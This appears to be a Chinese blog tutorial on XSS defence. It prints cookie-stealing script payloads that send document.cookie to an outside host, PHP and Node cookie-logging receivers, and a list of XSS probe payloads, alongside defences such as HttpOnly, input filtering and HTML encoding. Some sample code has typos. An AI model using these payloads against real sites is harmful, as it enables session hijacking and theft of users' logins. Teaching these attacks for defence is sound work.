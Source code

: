 ```yaml
---
title: web安全-浅谈xss攻防（二）
date: 2018-10-10 16:05:13
cover: "https://cdn.jsdelivr.net/gh/okaychen/CDN@1.2/BlogSource/gallery/thumb_007.jpg"
tags:  
    - WEB安全
categories:
    - WEB安全
---
```


# 前言
上次介绍了什么是XSS以及XSS的三种类型，作为上次小尾巴的总结来说：XSS跨站脚本是一种经常出现在web应用程序中的计算机安全漏洞，是由于web应用程序对于用户的输入过滤不足引起的。攻击者利用网站漏洞把恶意脚本代码注入到网页之中，当其他用户浏览这些网页时，就会执行其中的恶意代码，轻者能达到恶作剧的目的，重者可以对受害者采取cookie资料窃取，会话劫持，钓鱼欺骗等各种攻击；分为三种类型，服务端的存储型和反射性，客户端自身漏洞引起的DOM型。这次我简单总结一些常见的攻击对应的防御措施，方便以后学习回顾;
<!--more-->
# 1.Cookie劫持
下面是几种是窃取用户Cookie信息的恶意代码，攻击者向漏洞页面写入类似的恶意代码从而达到获取客户端cookie信息的目的:

```
<script>document.location="http://test.com/cookie.asp?cookie ='+document.cookie</script>
<img src="http://test.com/cookie.asp?cookie ='+document.cookie">
<script>new Image().src="http://test.com/cookie.asp?cookie ='+document.cookie"</script>
<script>img=new Image();img.src="http://test.com/cookie.asp?cookie ='+document.cookie";img.wdith=0;img.height=0;</script>
<script>document.write('<img src="http://test.com/cookie.asp?cookie ='+document.cookie" width=0 height=0 border=0>')</script>
```
诸如此类，一旦注入成功，这些恶意代码都会向某个特定的远程服务器提交cookie，攻击者会在远程服务器上写一个接收和记录cookie信息的文件
例如php版本：
```php
<?php
    $cookie=$_GET['cookie'];
    $log= fopen("cookie.txt","a");
    fwrite($log,$cookie ."\n");
    fclose($log);
?>
```
或者node来处理:
```js
const http = require('http');
const fs = require('fs');

http.createServer(function(req,res){
    var Cookies = {};
    
    req.headers.cookie && req.headers.cookie.split(';').foEach(function(Cookies){
        var parts = Cookie.split('=');
        Cookies[ parts[ 0 ].trim() ] = ( parts[ 1 ] || '' ).trim();
    })

    console.log(Cookies)

    res.writeHeader(200,{
        'Set-Cookie' : 'SSID=EqAc1D; Expires=Wed', 
        // 注意上面我们不设置HttpOnly;Fix:>>>'SSID=EqAc1D; Expires=Wed;HttpOnly'<<<
		'Content-Type' : 'text/plain'
    });
    
    fs.open('cookie.txt','r+',function(err,fd){
        if(err){
            return console.error(err);
        }
        fs.writeFile(fd,Cookies,function(){
            if(err){
                return console.error(err);
            }
        })
    })
}).listen(8000);
```
亦或是jsp版本、python flask等等诸如此类可以获取到从客户端发来的cookie做接收和记录操作的。

获取到存储信息的cookie.txt后，攻击者就可以通过修改网站的cookie信息（f12打开开发者控制工具，application/Cookies）来登入网站，从而来进行进一步的攻击操作。

## 防止cookie会话劫持
根本原因是攻击者获取cookie的恶意js代码注入到站点，进一步传到攻击者的远程服务器，从而进行攻击操作；
对于可能的意外注入站点的获取cookie的恶意js代码，我们一般要在设置cookie时加HttpOnly，来禁止意外注入站点的恶意js代码操作Cookie造成xss攻击
比如node设置HttpOnly：
```js
'Set-Cookie' : 'SSID=EqAc1D; Expires=Wed ;HttpOnly'
```
或者php设置HttpOnly：
```php
<?php ini_set("session.cookie_httponly", 1); ?>
```
# 2.提高攻击门槛

## 使用XSS Filter
针对用户提交的数据进行有效的验证，只接受我们规定的长度或内容的提交，过滤掉其他的输入内容，例如：
1.表单数据指定值的类型：年龄只能是 int 、name 只能是字母数字等
2.过滤或移除特殊的 html 标签：`<script>`、`<iframe>`等
3.过滤 js 事件的标签：onclick、onerror、onfocus等
4.对于要求用户输入的一些特殊格式的字段，用正则和字段长度进行严格限制，比如手机号，邮箱等
如在客户端进行验证手机号的JavaScript代码:
```js
<form id="test">
    <input type="text" id="tel">
    <input type="button" onclick="checkTel()"> 
</form>
<script>
    function(){
        let re = /^020-\d{8}$/;
        if(re.test(document.getElementById("Tel").value)){
            alert('电话号码格式正确');
        }else{
            alert('错误的电话号码');
        }
    }
</script>
```
这段JavaScript验证代码要求用户输入的必须是020-开头，后跟8位数字.
> 但是需要特别注意的是，*仅仅在客户端进行非法输入的验证和检测是远远不够的*，因为客户端组件和用户输入不在服务器的控制范围内，用户能够完全控制客户端及提交的数据，比如firebug、TemperDate之类的工具，拦截应用程序收到和发布每一个HTTP/HTTPS请求和响应，对其进行修改和检查，从而绕过客户端的检验将信息提交到服务器中。因此，确认客户端生成数据的唯一安全方法就是在服务端实施保护措施。

## 输出编码Xss Escape
有时候我们又不可避免的需要用户输入一些特殊字符，但是我们又不确定用户输入的这段含特殊字符的数据是不是恶意的含xss的字符，为了保证用户输入的完整性和正确性，就可以使用编码（HTMLEncode）进行处理。

HTML编码在防止xss攻击上能起很大的作用，它主要使用对应的实体代替HTML字符，让该字符作为其HTML文档的内容而非结构加以处理。

| 显示 | 实体名字 | 实体编号 |
| :------: | :------: | :------: |
| `<` | `&lt;` | `&#60;` |
| `>` | `&gt;` | `&#62;` |
| `&` | `&amp;` | `&#38;` |
| `"` | `&quot;` | `&#34;` |

上面就是几个可能触发xss的敏感字符，都是一些特殊的HTML字符。都这些字符实现编码和转义后，能够有效地防范HTML注入和XSS攻击

例如php的`htmlspecialchars()`库函数，就能够将用户输入的特殊字符进行实体转换：
- `<` 转成 `&lt;`
- `>` 转成 `&gt;`
- `&` 转成 `&amp;`
- `"` 转成 `&quot;`
- `'` 转成 `&#39;`

实际情况中，我们可以结合这两种情况进行过滤

![安全的过滤形式](https://cdn.jsdelivr.net/gh/okaychen/CDN@2.2/BlogSource/images/xss-encode02.png)

# 3.Xss漏洞检测Poc
标准的xss漏洞检测代码
```js
<script>alert('xss')</script>
```
img 图片标记属性跨站攻击代码
```
<img src="javascript:alert(/xss/)"></img> <img dynsrc="javascript:alert('xss')">
```
无需 “<>”，利用 html 标记事件属性跨站
```
<img src="" onerror=alert("xss")>
```
空格与回车符转换
```
<img src="Jav&#x09;ascript:alert('xss')"> <img src="Jav&#x0A;ascript:alert('xss')"> <img src="Jav&#x0D;ascript:alert('xss')">
```
10 进制转换
```
<img src="&#74&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#39&#120&#115&#115&#39&#41">
```
以上代码都可以做 Poc 使用，在有变量的位置插入，如果成功执行则代表有漏洞。
只要你提交的Poc，服务端原封不动的返回了，说明服务端不经过任何处理就显示了，就证明有漏洞存在。

# 参考资料
[《XSS跨站脚本剖析与防御》--邱永华](https://book.douban.com/subject/25711796/)
[《白帽子讲web安全》--吴翰清](https://book.douban.com/subject/10546925/)
[《Web 安全：前端攻击 XSS 深入解析》](https://blog.csdn.net/gitchat/article/details/78726803)